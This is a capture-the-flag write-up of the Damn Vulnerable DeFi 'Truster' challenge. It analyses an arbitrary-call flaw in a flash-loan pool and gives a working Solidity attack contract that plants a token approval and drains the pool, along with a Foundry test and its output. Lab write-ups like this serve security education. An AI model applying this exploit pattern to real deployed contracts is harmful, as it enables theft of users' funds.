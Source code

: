 # Challenge - Truster

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

## Objective of CTF

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## Vulnerability Analysis

### Root Cause: Arbitrary Call

```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external nonReentrant returns (bool){
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```

In this `flashLoan` function, we observe that it allows us to execute an arbitrary external call within the `TrusterLenderPool` contract, as shown in the following code snippet:

```solidity
target.functionCall(data);
```

In this scenario, an attacker can execute a token approval to their address during the flash loan process. Although the `flashLoan` function ensures the borrowed amount is repaid, it doesn’t prevent the attacker from later using the `transferFrom` function to move tokens from the `TrusterLenderPool` contract, leading to a potential loss of funds.

### Attack steps:

1. Execute a flash loan and include data to approve a specific address to spend `TrusterLenderPool`'s tokens.
2. Use the approved address to transfer tokens from `TrusterLenderPool` to the `recovery`.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {Ownable} from "solady/auth/Ownable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

interface TrusterLenderPool {
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external returns (bool);
}

contract AttackTrusterLenderPool is Ownable {
    uint256 private constant TOKENS_IN_POOL = 1_000_000e18;

    address private immutable pool;
    address private immutable token;
    address private immutable recovery;

    constructor(address _pool, address _token, address _recovery) {
        _initializeOwner(msg.sender);

        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external onlyOwner {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL);

        // approve 1000000 ether token during the flashloan
        TrusterLenderPool(pool).flashLoan(0, address(this), token, data);
        // transfer all token from pool to recovery
        IERC20(token).transferFrom(pool, recovery, TOKENS_IN_POOL);
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {TrusterLenderPool} from "../../src/truster/TrusterLenderPool.sol";
import {AttackTrusterLenderPool} from "../../src/truster/AttackTrusterLenderPool.sol";

contract TrusterChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    DamnValuableToken public token;
    TrusterLenderPool public pool;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        // Deploy token
        token = new DamnValuableToken();

        // Deploy pool and fund it
        pool = new TrusterLenderPool(token);
        token.transfer(address(pool), TOKENS_IN_POOL);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public view {
        assertEq(address(pool.token()), address(token));
        assertEq(token.balanceOf(address(pool)), TOKENS_IN_POOL);
        assertEq(token.balanceOf(player), 0);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_truster() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the pool contract", token.balanceOf(address(pool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery contract", token.balanceOf(address(recovery)), token.decimals()
        );

        AttackTrusterLenderPool maliciousContract = new AttackTrusterLenderPool(address(pool), address(token), recovery);
        maliciousContract.attack();

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the pool contract", token.balanceOf(address(pool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery contract", token.balanceOf(address(recovery)), token.decimals()
        );
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed a single transaction
        assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

        // All rescued funds sent to recovery account
        assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");
        assertEq(token.balanceOf(recovery), TOKENS_IN_POOL, "Not enough tokens in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/truster/Truster.t.sol:TrusterChallenge
[PASS] test_assertInitialState() (gas: 21997)
[PASS] test_truster() (gas: 421513)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the pool contract: 1000000.000000000000000000
  token balance in the recovery contract: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the pool contract: 0.000000000000000000
  token balance in the recovery contract: 1000000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 7.18ms (512.42µs CPU time)

Ran 1 test suite in 264.62ms (7.18ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
